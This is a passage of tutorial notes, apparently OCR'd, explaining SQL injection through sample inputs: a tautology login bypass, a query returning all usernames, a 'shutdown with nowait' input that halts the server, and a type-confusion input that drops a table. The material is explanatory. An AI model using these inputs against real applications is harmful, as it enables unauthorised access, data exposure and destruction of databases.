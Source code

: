   ```sql
  SELECT Username FROM Users
  WHERE Username = ''

  -- SQL Inject
  SELECT Username FROM Users
  WHERE Username = ' h'or 'y'='y '
  ```

	-	When the `Username` argument is evaluated:
	  -	`'Y' = 'y'` will assess to TRUE and an authentic username will be returned.

---

### Input: <font color=OrangeRed> ' or username is not null or username= ' </font> :
-	This statement will be executed as follows and provide the entries for all users.

  ```sql
  SELECT Username FROM Users
  WHERE Username= '';

  -- SQL Inject
  SELECT Username FROM Users
  WHERE Username= ' ' or Username is not null or Username= ' ';
  ```

---

### Input: <font color=OrangeRed> ; shutdown with nowait;-- </font>
- This command will terminate the server operation and implement an attack with the following responses:
  - Username: `; shutdown with nowait; --`
  - Password: `[Leave blank]`
- If the SQL server is vulnerable, the following statement will be executed:
  ```sql
  SELECT Username FROM Users
  Where username= ' ; shutdown with nowait; -- ' and user_Pass=''
  ```

---

### Lack of Strong Typing

Another form of SQL injection takes advantage of the SQL developer not having incorporated strong typing into program.

when program is expecting a variable of one type or different type is entered, an SQL injection attack can be effected.

Example:

1. The variable Employeenum is expected to be a number.
   - `SELECT Employeename FROM Emptable WHERE Employeenum = '';`
   - If a character string is inserted instead, the database could be manipulated.
   - Setting the Employeenum variable: <font color=OrangeRed> l; DROP TABLE Emptable </font>
   - `SELECT Employeename FROM Emptable WHERE Employeenum = l; DROP TABLE Emptable;`
   - This SQL statement will erase the table Emptable from the database.

---